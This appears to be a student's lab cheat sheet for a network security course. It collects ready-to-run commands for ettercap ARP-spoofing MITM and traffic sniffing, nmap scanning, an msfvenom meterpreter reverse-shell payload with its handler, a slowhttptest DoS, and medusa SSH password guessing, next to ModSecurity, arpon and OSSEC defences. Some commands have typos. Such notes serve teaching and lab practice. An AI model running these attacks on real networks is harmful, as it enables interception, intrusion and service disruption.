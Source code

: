 # Práctica 2

## a) ettercap

* Installation  
	`sudo apt install ettercap-text-only`

* Options:
	* `-T` (text-cli)
	* `-q` (quiet)
	* `-w \<file\>` (output file)
	* `-i \<interface\>` (listening interface)
	* `-M` (MITM attack)

* **Arp spoofing**  
	`ettercap -qT -w output_file -M arp:remote /ip_victim// /ip_router//`
	
* **Check arp poisoning**  
	`arp -a | grep gateway`

* **Transfer ettercap output file through ssh with**  
	`scp lsi@10.11.48.155:/file/path .`

## c) Network MACs

* Options:
	* `-sn` (Disable port scan)

* Command
	`sudo nmap -sn -T5 10.11.48.0/23`

## d) Network Ipv6

* Commands
	```
	ping6 -I ens33 ff02::1
	ip -6 neigh
	```

## e) ens33 traffic

* Command
	`sudo ettercap -Tq -w pcap -i ens33`

## f) HTTP urls with ARP-spoofing

* Command
	```
	ettercap -qT -w pcap -M arp:remote /ip_victim// /ip_router//
	scp lsi@10.11.48.155:/home/lsi/pcap .
	wireshark pcap
	```

* Filtrar en wireshark las conexiones con protocolo HTTP.

* Para ver en tiempo real, activar el plugin `remote_browser` y configurarlo en `/etc/ettercap/etter.conf`
	`sudo ettercap -qT -w pcap -M arp:remote -P remote_browser /ip_victim// /ip_router//`

## g) Install Metasploit

* Instructions:
	https://computingforgeeks.com/install-metasploit-framework-on-debian/

* Set handler:
	```
	msfconsole -q
	msf6 > use exploit/multi/handler
	msf6 > set payload linux/x86/meterpreter/reverse_tcp
	msf6 > set lhost 10.11.48.155
	msf6 > set lport 4444
	msf6 > exploit
	```

* Create payload:
	```
	msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.11.48.155 LPORT=4444 -f elf > shell.elf
	chmod +x shell.elf
	./shell.elf
	```

## h) MITM ipv6

* Comamnd:
	

## i) Arpon sniffing detector

* Logs:
	`/var/log/arpon/arpon.log`

* Command:
	`arpon -i ens33 -S`

## j) Fingerprinting

* Options:
	`-sV`: Service version
	`-sC`: Script=default
	`-e`: interface
	`-sU`: Scan UDP ports

* Port scanning:
 `nmap -p- --open -T5 -v -n <ip>`

* Port scanning (ipv6):
 `nmap -p- --open -T5 -v -n -6 <ipv6>`

* Fingerprint:
	`nmap -sC -sV -p<open-ports>`

* OS fingerprinting:
	`nmap -O -T5 --osscan-guess <ip>`

## k) Connection monitoring

* Tools:
	* iftop
	* tcptrack

## m) Apache DoS

* Command:
	`slowhttptest -c 1000 -H -r 200 -w 512 -u http://10.11.48.154 -p 5`

## n) Modsecurity

* Install:
	```
	sudo apt install modsecurity-crs libapache2-mod-security2
	systemctl restart apache2
	sudo mv /etc/modsecurity/modsecurity.conf-recommended /etc/modsecurity.conf
	```
 
* Enable mod:
	`sudo e2enmod security2`

* Config files:
	* `/etc/apache2/mods-enabled/scurity2.conf`
	* `/etc/modsecurity/modsecurity.conf`

* Modscurity config file (`/etc/modsecurity/modsecurity.conf`):
	* `SecRuleEngine DetectionOnly` replace with `SecRuleEngine On`
	* Add:
		```
		SecConnEngine On
		SecConnReadStateLimit 50
		SecConnWriteStateLimit 50
		```

## o)

* Ver apuntes Jorge

* Host name reverse DNS script:
	```
	#!/bin/bash
 
	for i in {​​​​​​​​48..63}​​​​​​​​; do
		for j in {​​​​​​​​0..255}​​​​​​​​; do
			res=$(dig -x 193.144.$i.$j | grep -A1 "ANSWER SECTION:" | tail -n1 | awk '{​​​​​​​​print $5}​​​​​​​​')
			if [ "$res" != "" ]; then
			echo "ip: 193.144.$i.$j   ->  $res"
			fi
		done
	done
	```

## p)

## q) Password Guessing

* Options:
	`-r`: Sleep time
	`-R`: Num retries
	`-t`: Concurrently hosts
	`-f`: Stop when it found the password

* Command:
	`medusa -U /users/dict -P /pass/dict -m ssh <ip>`

## r) Ossec

* Start:
	`/var/ossec/bin/ossec-control start`

* Unban:
	```
	/var/ossec/active-response/bin/host-deny.sh delete - 10.11.48.155
	/var/ossec/active-response/bin/firewall-drop.sh delete - 10.11.48.155
	```

* Change ban timeout:
	`/var/ossec/etc/ossec.conf` en la sección **\<active-response\>**

## s) Post-mortem

* Command:
	`cat /var/log/auth.log | /var/ossec/bin/ossec-logtest -a`

